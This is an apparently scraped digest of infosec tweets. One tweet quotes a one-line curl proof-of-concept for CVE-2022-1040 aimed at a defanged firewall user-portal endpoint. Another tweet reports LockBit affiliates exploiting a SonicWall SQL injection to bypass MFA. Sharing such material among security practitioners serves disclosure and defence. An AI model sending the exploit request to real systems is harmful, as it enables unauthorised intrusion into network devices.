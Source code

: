 <td>Quotes: <code>18</code></td>
<td>Replies: <code>14</code></td>
<td>Retweets: <code>366</code></td>
<td>Favorites: <code>1132</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1522502078140403712 _at 2022-05-06, 09:02:36_**
<blockquote>
CVE-2022-1040

curl --insecure -H "X-Requested-With: XMLHttpRequest" -X POST 'hxxps://x.x.x.x/userportal/Controller?mode=8700&amp;operation=1&amp;datagrid=179&amp;json=\{"🦞":"test"\}'

👿
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>132</code></td>
<td>Favorites: <code>499</code></td>
</tr></table>

---

# blueteamsec1
**https://twitter.com/blueteamsec1/status/1522216808291258370 _at 2022-05-05, 14:09:03_**
<blockquote>
Lockbit 2.0 affiliate’s new SonicWall exploit bypasses MFA - Affiliates observed to exploit a known but relatively obscure SQLi vulnerability (CVE-2019-7481 or CVE-2021-20028) in a novel manner to retrieve user session data… https://t.co/PW3eVG5uIE #cyber #threathunting #infosec https://t.co/CHSbD4dO0L
</blockquote>

* http://dlvr.it/SPpwFz

<table><tr>